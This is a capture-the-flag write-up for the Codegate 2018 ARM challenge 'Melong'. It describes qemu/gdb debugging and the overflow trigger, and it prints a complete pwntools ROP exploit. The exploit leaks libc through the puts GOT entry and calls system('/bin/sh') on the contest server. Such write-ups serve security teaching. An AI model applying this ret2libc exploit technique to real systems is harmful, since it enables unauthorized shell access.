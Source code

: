 ```yaml
---
layout: post
page:
    title: "Codegate CTF 2018"
    date: "2018-02-04"
author: "Ne0"
---
```

Yesterday I played the Codegate CTF 2018 with Lotus-Eur3kA, a combination with Blue-Lotus and Eur3kA. Unluckily, there are several challenges we didn't solve in time and finally we got rank 21.

## Melong
The challenge is not difficult, but it is the first arm exploit I solved in a CTF game. So I will try to make this wp more detailed.The challenge can be download in [here](https://github.com/Changochen/CTF/tree/master/2018/Codegate/melong).

The exploit in arm is almost the same with that in X86. All we need to know is how arm makes function calls.  
To be short, arm use r0-r3 to store the first 4 argument, with r0 storing the first and r4 the fourth. And no jmp or call instruction in arm, but b or bl instead.

### Program info

Let's take a look in the program
```bash
[*] '/home/ne0/Desktop/codegate/melong/melong'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```
### Debug

To run the program, I use qemu-arm:
```bash
qemu-arm  -g 1234 -L /usr/arm-linux-gnueabi ./melong
```
- -L dir: dir is /path/to/lib_for_arm
- -g port: for remote debug

At another console, run the gdb for arm:
```bash
arm-none-eabi-gdb melong
```
In gdb, we run:
```bash
gdb-peda$ target remote localhost:1234
Remote debugging using localhost:1234
warning: A handler for the OS ABI "GNU/Linux" is not built into this configuration
of GDB.  Attempting to continue with the default armv5t settings.

Warning: not running or target is remote
Save/restore a working gdb session to file as a script
Usage:
    session save [filename]
    session restore [filename]

0xf67ceb00 in ?? ()
gdb-peda$ c
Continuing.
```

Then we see the program running:
```bash
➜  melong qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./melong 
Welcome to the BPSEC gym

1. Check your bmi
2. Exercise
3. Register personal training
4. Write daily record
5. Have some health menu
6. Out of the gym

Type the number:
```
### Exploit

The logic in the program is easy, so I leave it out. To trigger buffer overflow, all you need to to is:
1. check bmi once
2. Register training, enter -1
3. write dairy with unlimited length,thus overflow.

To find useful gadget, I use ROPgadget, and the only gadget I use is
```armasm
0x00011bbc : pop {r0, pc}
```

The flow is the same as X86:
- Leak the libc address
- Return to main or somewhere else to trigger buffer overflow again
- Get shell

To leak, we set r0=puts got, pc=puts plt.
After puts is called, the program will fetch the eip from stack, so we can fill it with the address we want to return.
Thus the finall exp is

```python
from pwn import *
remote_addr="ch41l3ng3s.codegate.kr"
remote_port=1199

libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')
p=remote(remote_addr,remote_port)

def go(payload):
    choice(1)
    sla('Your height(meters) : ','1')
    sla('Your weight(kilograms) : ','1')
    choice(3)
    sla('take personal training?\n','-1')
    choice(4)
    sl(payload)
    choice(6)
    rl()
 
def hack():
    pop_r0=0x00011bbc
    main=0x110CC
    puts_plt=0x0104A8
    puts_got=0x2301c
    payload='A'*84+p32(pop_r0)+p32(puts_got)+p32(puts_plt)
    payload+=p32(main)*8
    go(payload)
    libc.address=u32(p.recv(4))-libc.symbols['puts']
    lg("LIBc",libc.address)
    payload='A'*84+p32(pop_r0)+p32(libc.search('/bin/sh').next())+p32(libc.symbols['system'])
    go(payload)
    p.interactive()

hack()
```

By the way, the libc is not provided in the attachment. But the libc in the server happens to match my qemu libc. So I solved it without having to find the correct libc

## Zoo
To be continued....
